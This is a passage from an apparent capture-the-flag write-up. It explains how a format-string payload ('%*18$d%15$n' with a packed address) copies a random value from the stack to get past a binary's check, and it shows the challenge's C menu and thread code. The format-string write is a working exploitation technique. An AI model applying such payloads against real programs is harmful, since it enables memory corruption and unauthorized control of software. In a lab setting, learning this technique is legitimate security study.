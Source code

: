 So it only leaves us with the solution of writing the random number on stack and then copying it from there to the age pointer.

We can copy numbers from stack using `%*offset$d`. Let's use it in our exploit.
{: .notice}

```python

if __name__=="__main__":

    region = get_rand()
    log.info("region = " + hex(region))
    #Using format string to pass the initial check , to enter the secret_service
    payload = ('%*18$d' + '%15$n').ljust(16,'a') + p64(region)
    sa("Name: ",payload)
    sla("Age: ","123")
    sleep(1)


```

With this , we satisfy all checks and enter the secret service.

The secret service is pretty much a commonplace menu driven code with `Enroll` , `View` , `Remove` and an extra functionality which I termed as `Hack`. Later on , a feedback is requested which initialises a separate thread to do stuff.

But why so much obfuscation just to take a feedback , there's a reason for that guys, hold your horses.

```c
void secret_service()
{
    
    pthread_t t1;
    while(1)
    {
        unsigned int option = menu();
        switch(option)
        { 
            case 1: Enroll();
            break;
            case 2: View();
            break;
            case 3: Remove();
            break;
            case 4: goto Move_On;
            break;
            case 2020: Hack();
            break;
            case 5: exit(EXIT_SUCCESS);
        }
    }
    Move_On:
    puts("Do u want to leave a feedback for the service?(y/n)");
    scanf("%c",&ch);
    if(!strcmp(&ch,"y"))
    {
        pthread_create(&t1,NULL,thread_entry,NULL);
        pthread_join(t1,NULL);
    }
    else
    {
        puts("Thank you!");
    }
    exit(EXIT_SUCCESS);
}
```